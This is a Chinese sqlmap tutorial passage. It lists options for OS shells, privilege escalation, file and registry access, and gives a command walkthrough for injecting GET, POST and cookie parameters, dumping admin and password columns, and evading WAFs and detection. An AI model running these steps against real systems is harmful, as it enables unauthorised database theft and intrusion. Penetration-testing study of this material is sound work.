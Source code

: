 ```
- Operating system access 操作系统访问

  这些选项可以用于访问后端数据库管理系统的底层操作系统。

  –os-cmd=OSCMD 执行操作系统命令 –os-shell 交互式的操作系统的shell –os-pwn 获取一个OOB shell，meterpreter或VNC –os-smbrelay 一键获取一个OOB shell，meterpreter或VNC –os-bof 存储过程缓冲区溢出利用 –priv-esc 数据库进程用户权限提升 –msf-path=MSFPATH Metasploit Framework本地的安装路径 –tmp-path=TMPPATH 远程临时文件目录的绝对路径

- Brute force（蛮力)

  这些选项可以被用来运行蛮力检查。

  –common-tables 检查存在共同表 –common-columns 检查存在共同列

- User-defined function injection（用户自定义函数注入）

  这些选项可以用来创建用户自定义函数。

  –udf-inject 注入用户自定义函数 –shared-lib=SHLIB 共享库的本地路径

- General
  这些选项可以用来设置一些一般的工作参数。
  -t TRAFFICFILE 记录所有HTTP流量到一个文本文件中 -s SESSIONFILE 保存和恢复检索会话文件的所有数据 –flush-session 刷新当前目标的会话文件 –fresh-queries 忽略在会话文件中存储的查询结果 –eta 显示每个输出的预计到达时间 –update 更新SqlMap –save file保存选项到INI配置文件 –batch 从不询问用户输入，使用所有默认配置。
- File system access（访问文件系统)
  这些选项可以被用来访问后端数据库管理系统的底层文件系统。
  –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
- Miscellaneous 杂项
  –beep 发现SQL注入时提醒 –check-payload IDS对注入payloads的检测测试 –cleanup SqlMap具体的UDF和表清理DBMS –forms 对目标URL的解析和测试形式 –gpage=GOOGLEPAGE 从指定的页码使用谷歌dork结果 –page-rank Google dork结果显示网页排名（PR） –parse-errors 从响应页面解析数据库管理系统的错误消息 –replicate 复制转储的数据到一个sqlite3数据库 –tor 使用默认的Tor（Vidalia/ Privoxy/ Polipo）代理地址 –wizard 给初级用户的简单向导界面
- window 注册表
  这些选项可以被用来访问数据库管理系统Windows注册表。
  –reg-read 读一个Windows注册表项值 –reg-add 写一个Windows注册表项值数据 –reg-del 删除Windows注册表键值 –reg-key=REGKEY Windows注册表键 –reg-value=REGVAL Windows注册表项值 –reg-data=REGDATA Windows注册表键值数据 –reg-type=REGTYPE Windows注册表项值类型
```

<pre><code><strong>.get型：sqlmap -u “http://xxx.xx.xxx/xx.xxx?xx=xxx” 
</strong>2.post型: sqlmap -u “http://xxx.xx.xxx/xx.xxx” –data=”xxxx=xxxx&#x26;xxxx=xxx”
3.cookie类注入: sqlmap -u “http://xxx.xx.xxx/xx.xxx?xx=xxx” –cookie=”xxx=xxx&#x26;xxx=xxx” –level=2

需要[数据库](http://www.jb51.net/database/)好：–dbs
得到数据库名称xxx，需要表： -D xxx –tables
得到表名xxxx，需要段：-D xxx -T xxxx –columns
得到段内有admin，password，需要值：-D xxx -T xxxx -C “admin,password” –dump
那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用其。
–dbs –tables –columns 是干吗的，当然就是不知道名称，列出来呗
–dump 那自然就是字面意思，类似于导出数据的行为
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf –tamper=”"
注入被识别出来是工具，断开咋办–user-agent=”"
再多牛逼的功能都是慢慢积累出来的，别想一口吃成胖子
